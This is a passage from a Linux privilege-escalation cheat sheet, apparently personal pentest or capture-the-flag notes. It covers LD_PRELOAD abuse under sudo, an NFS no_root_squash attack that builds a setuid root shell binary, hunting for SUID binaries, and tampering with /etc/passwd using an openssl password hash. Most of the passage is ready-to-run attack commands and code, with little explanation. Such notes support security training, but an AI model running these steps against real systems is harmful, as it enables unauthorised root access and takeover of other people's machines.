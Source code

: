 Run the command:
```
sudo LD_PRELOAD=/full/path/to/shell.so (something that we can run as sudo!)
```

#### NFS Root Squash

Check if there is a vulnerability here:
```
cat /etc/export
```

If you have some folder with no_root_squash, then you can mount that folder

Check if you can mount something
```
showmount -e $rhost
```

Create folder for remote folder
```
mkdir mountme
```

Mount that folder
```
mount -o rw,vers=2 $rhost:/remotedir /full/path/to/mountme
```

Let's create a malicious file:
```
echo "int main(){ setgid(0); setuid(0); system('/bin/bash'); return 0;}" > /mountme/x.c
```

Let's gcc this:
```
gcc /mountme/x.c -o /mountme/x
```

Then's let's use the chmod +s:
```
chmod +s x
```

Then, in your remote machine, run your x file to get root.

#### Setuid Binaries and Capabilities

```
find / -perm -u=s -type f 2>/dev/null
```

Check in [GTFOBins](https://gtfobins.github.io)

##### systemctl

[Here is a link!](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740)

##### cp
```
cat /etc/passwd > passwd.orig
```
New password:
```
openssl passwd <Enter your password>
```

